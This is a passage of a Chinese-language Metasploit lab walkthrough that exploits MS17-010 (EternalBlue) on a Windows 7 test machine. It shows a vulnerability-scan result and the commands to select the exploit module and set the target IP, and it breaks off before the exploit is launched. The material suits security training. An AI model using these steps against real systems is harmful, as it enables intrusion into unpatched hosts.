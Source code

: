 <img src="_media/win7/2.png" />

6.扫描后得到Host is likely VULNERABLE to MS17-010! - Windows 7 Enterprise 7600 x64 (64-bit)，说明该目标机器有该漏洞影响

7.接着再次search ms17-010，查找exploit渗透模块并进入

``` 
search ms17-010
use 2
```

<img src="_media/win7/3.png" />

8.查看该模块的具体参数并设置必要参数，并设置目标机器的IP地址

```
show options
set RHOSTS 192.168.255.134
```
